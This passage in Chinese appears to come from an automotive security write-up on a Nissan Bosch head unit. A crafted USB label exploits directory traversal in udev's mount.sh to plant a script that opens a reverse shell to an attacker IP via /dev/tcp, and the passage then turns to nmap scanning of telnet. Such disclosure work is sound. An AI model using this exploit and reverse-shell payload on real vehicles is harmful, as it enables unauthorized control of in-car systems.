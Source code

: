 日产的bosch车机挂载恶意U盘的情况下，可以反弹shell到攻击者的服务器，存在问题的文件即 /etc/udev/scripts/mount.sh  
其中的挂载操作

```plain
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

$mountdir 我们能够控制并且没有什么过滤操作，存在目录穿越漏洞  
所以构造的恶意U盘信息为

```plain
/etc# blkid /dev/sdb1
/dev/sdb1: LABEL="../../usr/bin" UUID="7cc162e8-93d7-1f44-bbd6-0d308f113468" TYPE="ext4"
```

在U盘目录下编写logger脚本来进行反弹shell

```plain
root@kali:~/automotive# mount /dev/sdb1 /media/root/
root@kali:~/automotive# cd /media/root
root@kali:/media/root# cat logger
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.159.128/4444 0>&1
root@kali:/media/root# chmod +x logger
root@kali:/media/root# cd -
root@kali:~/automotive# umount /dev/sdb1
```

### 服务安全

针对车机内部的一些服务的扫描，包含但不限于以下

#### telnet

2016年腾讯的科恩实验室在blackhat上针对特斯拉Model S进行攻击的时候，从车机CID打出去也用到了Telnet攻击，而我们仅仅需要用到nmap扫描

[![](assets/1699406834-384a77f9ff96e255175887734197711e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106200018-0db680c6-7c9c-1.png)
